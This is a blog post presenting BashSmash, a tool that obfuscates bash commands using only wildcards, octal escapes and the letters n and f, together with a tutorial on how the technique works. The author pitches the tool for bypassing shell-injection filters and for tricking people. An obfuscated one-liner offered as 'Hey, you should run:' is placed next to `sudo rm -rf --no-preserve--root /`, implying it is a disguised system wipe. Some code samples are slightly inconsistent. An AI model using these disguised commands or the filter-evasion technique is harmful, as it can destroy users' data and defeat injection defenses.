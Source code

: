 ```yaml
---
layout: page
title:  "BashSmash"
description: "A tool for driving people crazy"
date:   2019-06-26 15:48:00
tags: projects
---
```


I was watching this great [Liveoverflow video](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=1&cad=rja&uact=8&ved=2ahUKEwiOhNze_4fjAhUiB50JHR12D8AQwqsBMAB6BAgJEAQ&url=https%3A%2F%2Fwww.youtube.com%2Fwatch%3Fv%3D6D1LnMj0Yt0&usg=AOvVaw2nOgft0SoPZujc9js9Vxhx) yesterday, and really liked the idea of building escape sequences with strings. So, I built a new tool, [BashSmash](https://pypi.org/project/bashsmash/). 

## The goal
The goal of BashSmash is very similar to that described in Liveoverflow's video. Do anything in bash without using any letters or numbers except `n` and `f` (he used `i` instead of `f`). This can both bypass shell injection filters, and generally mess with people.

Saying "Hey, you should run:"
```bash
__() {/???/???/???n?f ${#};}; $(/???/???/???n?f $(/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";););
```

Instead of:
```bash
sudo rm -rf --no-preserve--root /
```

Can usually get you much farther with your goal of world domination.

## How does this work?
BashSmash abuses bash wildcards, octal escape codes, and a large number of backslashes to obfuscate any valid shell script.

Firstly, it is important to know that `printf` will gladly convert any octal to a string, and bash's eval (`$()`) function will gladly run any string as a bash script. (See where this is going?)

Because of these tools, we know that the following is possible:
```bash
# Printf-ing a string will print the string
printf "hello" # This will return hello

# Printf-ing a sequence of octal escapes will also print a string
printf "\150\145\154\154\157" # This will also return hello

# Eval-ing a printf of an octal escape sequence will build a string, then run it in bash
$(printf "\150\145\154\154\157") # This will warn that "hello" is not a valid command
```

This has some issues. You may have noticed that letters are required to spell `printf`, and numbers are needed for the octal escapes. Let's start by fixing the letters problem.

Bash allows wildcards. You may have run something like `cp ./foo/* ./bar` before. This uses the wildcard `*`. The `*` wildcard will be auto-evaluated to expand into a list of all files in it's place.
```bash
# Let's assume that ./foo contains the following files:
#   john.txt
#   carl.txt

# Running the following:
cat ./foo/*

# Will automatically expand to:
cat ./foo/john.txt ./foo/carl.txt

# Now, lets assume that ./baz contains a single file:
#   KillHumans.sh

# Running:
./baz/*

# Will execute KillHumans.sh
```

Neat, Right? To take this a step further, you can use the second wildcard, `?`, to specify the number of characters you want to look for. Running `./baz/?` will not run `KillHumans.sh` because `KillHumans.sh` is not 1 char long. But `./baz/?????????????` will. This is messy, but it works.

Now, back to our problem with `printf`. `printf` is located in `/usr/bin/printf` on all *nix systems. This is handy as, firstly, this can be wildcarded, and secondly, the path contains 2 `n`'s and an `f` (the two letters we are allowed to use). So, instead of calling `printf`, we can call `/???/??n/???n?f`. 
```bash
# Now, we can call:
/???/??n/???n?f "\150\145\154\154\157"

# To print "hello". Or:
$(/???/??n/???n?f "\150\145\154\154\157")

# To run "hello" as a program (still gives an error)
```

Now, our problem with letters is solved, but we are still using numbers.

Bash allows anyone to define functions. These functions can take arguments and call other programs. So, what if we have a function that can take any number of arguments, and return the number of arguments as a number? This will be helpful because an empty argument can be added with `""` (not a number or letter), and this will replace the need for numbers in our code. On a side note, bash allows `__` as a function name, so that's cool. 

```bash
# Our function needs to do the following:
#   - Take any number of arguments
#   - Turn the number to a string
#   - Print the string so it can be evaluated back to a number with $()

# First, we start with an empty function, named __ (two underscores)
__() {};

# Easy. Next, we use a built-in feature of bash to count the number of arguments passed
__() { ${#} };

# With the ${#} feature in bash, giving this function 3 arguments will return a 3
# Next, we need to print this number to stdout 
# This can be done with printf
# We still do not want to use any letters or numbers, so we must use our string of wildcards
/???/??n/???n?f

# So, we just plug this into our function
__() {/???/??n/???n?f ${#}};

# Now, calling our function with three arguments
__ "" "" ""
# Will print:
3
```

Let's put this together. First, we must tell bash that our `__` function exists. 
``` bash
# We do this by starting our new script with: 
__() {/???/??n/???n?f ${#}};

# Next, an eval to actually run our constructed string. Together it now looks like this:
__() {/???/??n/???n?f ${#}); $(/???/??n/???n?f )

# Now, we construct a string using the __ function over and over again. "echo hello" looks like:
__() {/???/???/???n?f ${#};}; $(/???/???/???n?f $(/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";););
```

Thats it! You do not actually have to worry about this, because BashSmash does it all for you automatically.

## How do I use the script?
To use BashSmash, simply make sure both `python3.7` and `python3-pip` are installed on your computer, then run:
```
pip3 install bashsmash
```

For more info, see the [PYPI Page](https://pypi.org/project/bashsmash/).

## Why do you have a desire to break things with python
Because it is fun. Give it a try! 

I will have a post here at some point about the weird things I do in my python code and why I do them.